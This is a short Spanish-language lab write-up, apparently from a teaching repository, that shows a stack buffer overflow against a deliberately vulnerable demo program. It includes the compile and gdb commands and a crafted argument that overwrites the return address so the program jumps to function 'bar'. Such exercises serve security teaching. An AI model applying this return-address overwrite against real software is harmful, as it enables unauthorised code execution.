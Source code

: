 Vulnerabilidad que se explota realizando un buffer overflow, el objetivo es conseguir sobreescribir la dirección de retorno de la función para que llame al método bar.

Una vez ejecutamos y hallamos la dirección donde se encuentra el método bar, en este caso la dirección 0x5555555551a5 se sobreescribe la dirección pasando por parámetro.

```
$ gcc -o stack stackoverrun.c
$ gdb stack
(gdb) r

Address of foo = 0x555555555155
Address of bar = 0x5555555551a5
Please supply a string as an argument!

(gdb) r $(printf "aaaaaaaaaabbbbbbbb\xa5\x51\x55\x55\x55\x55")

        ...
Augh! I've been hacked!
        ...

```